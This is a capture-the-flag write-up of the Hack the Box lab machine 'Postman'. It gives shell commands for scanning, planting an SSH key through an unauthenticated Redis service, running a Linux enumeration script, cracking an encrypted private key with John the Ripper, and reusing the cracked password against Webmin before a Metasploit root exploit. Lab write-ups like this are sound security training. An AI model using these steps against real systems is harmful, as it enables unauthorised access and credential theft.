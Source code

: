 ```yaml
---
title: "Postman"
date: 2020-01-03T18:10:03-05:00
draft: false
---
```


If the screenshots here are critical to your success in implementing this penetration test, you can find the full writeup here on my medium channel: 

> https://medium.com/@rob.mccarthy31/postman-write-up-hack-the-box-49785d2ea78f

Postman is a vulnerable machine rated Easy on Hack the Box (hackthebox.eu).

Hostname: Postman
IP Address: 10.10.10.160
Release Date: 02 Nov 2019
Points: 20

> High-level Summary

The 10.10.10.160 host is a linux machine running a web server on port 80. There is a Webmin portal on port 10000 that is vulnerable to credential-reuse and an exposed Redis database on port 6379 which does not require authentication. The machine is running SSH on port 22 which is used to gain an initial foothold on the system.
The penetration tester was able to authenticate via SSH public-private key pairing after uploading a public key to the Redis database. Authenticating as the Redis user allowed the penetration tester to enumerate the local file system and discover an encrypted backup of a private key. Cracking the password for the key provided a means of authentication to the Webmin portal on port 10000. This access allowed for the penetration tester to use publicly-available exploit code to compromise the Webmin service which is running as the root user.

>Attack Path

Initial Scan(s):
```bash
nmap -n -v --open -p- 10.10.10.160 |tee nmap-discovery
nmap -n -v -sV -sC -p22,80,443,6379,10000 10.10.10.160 |tee nmap-svc
```

Initial Foothold:
The Redis service can be exploited as the database is write-able and does not require authentication. The author of Redis says that if Redis is exposed to the internet, then it is vulnerable, so lets get cracking (Packet Storm, 2015).

```bash
$ sudo apt install redis-server
$ redis-cli -h 10.10.10.160
$ echo "testing-command-execution"
```

We get a response, so we know we can execute commands unauthenticated on the Redis database. It lets us navigate to /var/lib/redis/.ssh/ so we know this directory exists. Lets try to write to it.

At this point we can exit the redis-cli and generate our ssh keys for the initial foothold.

```bash
$ ssh-keygen -t rsa -C slixperi@htb
```

I used id_rsa as the name of my private key, and provided no password when given the option by ssh-keygen.

```bash
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > keytext.txt
```

Now that we have a public key stored on the database by the name of “crackit”, we can save the value stored in crackit as a file; for the exploit to work this needs to be stored as authorized_hosts so that we can connect over SSH as the Redis user.


We can now connect over SSH using the private key that is paired to the public key we uploaded.

```bash
$ ssh -i id_rsa redis@10.10.10.160
```

I uploaded an enumeration script to gather data for me.

```bash
$ scp -i id_rsa LinEnum.sh redis@10.10.10.160:/tmp
```

SSH back in as the redis user and execute LinEnum.sh.


```bash
$ chmod +x LinEnum.sh && ./LinEnum.sh
```

Carefully reviewing the output we can see that there is a backup of a private key in the filesystem, which we can read, however it is encrypted.

We can crack encrypted SSH keys with JohnTheRipper but first we have to put it in the John format using SSH2John:

I first copied the SSH key into a new directory called matt, and named the SSH key id_rsa.

I located SSH2John using “locate ssh2john”.

```bash
$ locate ssh2john
$ python /usr/share/john/ssh2john.py id_rsa > johnkey
$ locate rockyou.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt johnkey
```

It turns out Matt is using this password to authenticate on the machine locally. We can now “su matt” and use “computer2008” to access his files on the machine. But the big kicker here is the password reuse. Matt is a user on the Webmin portal on port 10000. To access this we have to add “Postman” to our /etc/hosts file like so:

We can now access the Webmin console over port 10000 providing the credentials Matt:computer2008 to login.
The Webmin console is vulnerable to a publicly-available authenticated remote code execution which we can find on Metasploit. Since the Webmin console is running as the root user. We gain root-level access upon popping the shell.

Sources:
1) https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html


